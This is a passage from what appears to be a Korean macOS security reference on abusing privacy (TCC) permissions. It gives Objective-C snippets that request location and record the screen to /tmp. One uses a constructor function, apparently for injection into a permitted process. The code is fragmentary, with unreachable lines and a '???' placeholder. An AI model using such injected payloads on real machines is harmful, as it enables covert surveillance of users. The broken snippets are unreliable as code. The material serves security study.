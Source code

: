 ```objectivec

NSLog(@"Getting location");
CLLocationManager *locationManager = [[CLLocationManager alloc] init];
LocationManagerDelegate *delegate = [[LocationManagerDelegate alloc] init];
locationManager.delegate = delegate;

[locationManager requestWhenInUseAuthorization]; // or use requestAlwaysAuthorization
[locationManager startUpdatingLocation];

NSRunLoop *runLoop = [NSRunLoop currentRunLoop];
while (true) {
[runLoop runUntilDate:[NSDate dateWithTimeIntervalSinceNow:1.0]];
}

NSLog(@"Location completed successfully.");
freopen("/tmp/logs.txt", "w", stderr); // Redirect stderr to /tmp/logs.txt
}
```
{% endtab %}

{% tab title="Shell" %}
위치에 접근하기
```
???
```
{% endtab %}
{% endtabs %}

### 화면 녹화

* **권한**: 없음
* **TCC**: `kTCCServiceScreenCapture`

{% tabs %}
{% tab title="ObjectiveC" %}
메인 화면을 5초 동안 `/tmp/screen.mov`에 녹화합니다.
```objectivec
#import <Foundation/Foundation.h>
#import <AVFoundation/AVFoundation.h>

// clang -framework Foundation -framework AVFoundation -framework CoreVideo -framework CoreMedia -framework CoreGraphics -o ScreenCapture ScreenCapture.m

@interface MyRecordingDelegate : NSObject <AVCaptureFileOutputRecordingDelegate>
@end

@implementation MyRecordingDelegate

- (void)captureOutput:(AVCaptureFileOutput *)output
didFinishRecordingToOutputFileAtURL:(NSURL *)outputFileURL
fromConnections:(NSArray *)connections
error:(NSError *)error {
if (error) {
NSLog(@"Recording error: %@", error);
} else {
NSLog(@"Recording finished successfully.");
}
exit(0);
}

@end

__attribute__((constructor))
void myconstructor(int argc, const char **argv)
freopen("/tmp/logs.txt", "w", stderr); // Redirect stderr to /tmp/logs.txt
```